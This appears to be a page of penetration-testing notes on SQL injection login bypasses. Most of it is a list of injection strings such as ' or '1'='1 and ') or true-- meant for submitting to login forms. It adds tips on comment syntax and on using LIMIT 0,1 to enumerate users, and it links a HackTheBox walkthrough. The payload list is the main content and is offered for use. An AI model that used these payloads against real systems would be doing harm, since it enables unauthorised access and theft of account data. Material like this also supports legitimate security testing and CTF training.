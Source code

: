 # SQL Injection

## Login Bypasses

For login forms, if they're vulnerable to SQL Injection, the options can range from data exfiltration, to simply bypassing the login forms entirely. Note that the comment type for SQL databases can vary, so it's worth trying both `--` and `#`.  A number of the below are worth trying:

```
' or '1'='1
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

**Source**: [https://xapax.gitbooks.io/security/content/sql-injections.html](https://xapax.gitbooks.io/security/content/sql-injections.html)

If the backend code is only expecting a single result from the query, a number of the above will fail.  If this is the case then using `LIMIT 0,1` at the end of the expression will reduce the result returned to a single element.  You can then vary the first parameter to enumerate different users.



## **Examples**

[HackTheBox - Charon](https://www.youtube.com/watch?v=_csbKuOlmdE)   






